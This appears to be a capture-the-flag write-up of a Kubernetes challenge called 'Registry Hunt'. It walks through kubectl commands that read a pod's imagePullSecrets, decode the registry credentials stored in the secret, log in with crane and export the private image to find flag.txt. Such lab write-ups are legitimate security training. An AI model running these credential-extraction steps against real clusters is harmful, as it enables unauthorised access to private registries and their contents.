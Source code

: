 ## Registry Hunt
Goal: Retrieve content of a file called "flag.txt" by leveraging a registry secret. 

Permissions: 

{
    "secrets": [
        "get"
    ],
    "pods": [
        "list",
        "get"
    ]
}

Service account: service-account-challenge2
Namespace: challenge2

If we get the secrets within the challenge2, we can see that we don't have access to list secrets. Since we have access to get pods, we can inspect the pods yaml for clues. 

```bash
kubectl get pods
```
```bash
Output
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          8d
```
Let's inspect the pod's yaml
```bash
kubectl get pod database-pod-2c9b3a4e -o yaml
```
From the pod's yaml, we can get the containers image and imagePullSecrets.

```bash
Output

spec:
  containers:
    - image: eksclustergames/base_ext_image

imagePullSecrets:
  - name: registry-pull-secrets-780bab1d
```
Read more on imagePullSecrets - [Pull an Image from a Private Registry](https://kubernetes.io/docs/tasks/configure-pod-container/pull-image-private-registry/)

In this case, the secret __registry-pull-secrets-780bab1d__ is used to pull the image from the private container image registry.

A Kubernetes cluster uses the Secret of kubernetes.io/dockerconfigjson type to authenticate with a container registry to pull a private image. Since we do have permission to "get" secrets in the namespace, we can view the secrets yaml and. 

```bash
kubectl get secrets registry-pull-secrets-780bab1d --output="jsonpath={.data.\.dockerconfigjson}" | base64 -d
```

```bash
Output

{"auths": {"index.docker.io/v1/": {"auth": "..."}}}
```

Grab the token inside __auth__ and decode it one more time to retrieve the user and password. 

```bash
echo "..." | base64 -d
```
```bash
Output

username:password
```
Now that we have the username and password, its time to authenticate against the registry using the tool provided [Crane](https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane.md). 


```bash
crane auth login index.docker.io -u ... -p ...
```
```bash
Output

2023/11/09 15:01:52 logged in via /home/user/.docker/config.json
```
Now that we are authenticated, we can export filesystem of the container image as a tarball.

```bash
crane export docker.io/eksclustergames/base_ext_image - | tar -xvf -
```
```bash
ls -l
```
```bash
Output

total 20
drwxr-xr-x 2 root root 12288 Jul 17 18:30 bin
drwxr-xr-x 2 root root     6 Jul 17 18:30 dev
drwxr-xr-x 3 root root   100 Nov  9 15:09 etc
-rw-r--r-- 1 root root   124 Nov  1 13:32 flag.txt
drwxr-xr-x 2 root root     6 Jul 17 18:30 home
drwxr-xr-x 2 root root   213 Jul 17 18:30 lib
lrwxrwxrwx 1 root root     3 Jul 17 18:30 lib64 -> lib
drwxr-xr-x 2 root root     6 Nov  1 13:32 proc
drwx------ 2 root root     6 Jul 17 18:30 root
drwxr-xr-x 2 root root     6 Nov  1 13:32 sys
drwxrwxrwt 2 root root     6 Jul 17 18:30 tmp
drwxr-xr-x 4 root root    29 Jul 17 18:30 usr
drwxr-xr-x 4 root root    30 Jul 17 18:30 var
```
```bash
cat flag.txt
```

